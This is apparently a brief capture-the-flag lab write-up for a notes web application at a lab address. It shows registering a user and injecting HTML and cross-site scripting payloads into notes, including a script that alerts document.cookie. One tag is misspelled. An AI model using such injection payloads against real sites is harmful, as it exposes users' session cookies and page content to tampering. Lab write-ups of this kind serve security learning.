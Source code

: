 It's too easy and I didn't export the web application in this case. XSS is really simple.

1. Go to `http://10.10.10.97/login.php` and register a new user

2. login to it!

3. In the notes inject html tags

**HTML injection**
```
#title
title
#Note
<marquee>Mooooooviiiing</marquee>
```

**XSS**
```
#Title
Any title!
#Note
<scrip>alert("testing XSS")</script>
<script>alert(document.cookie)</script>
```
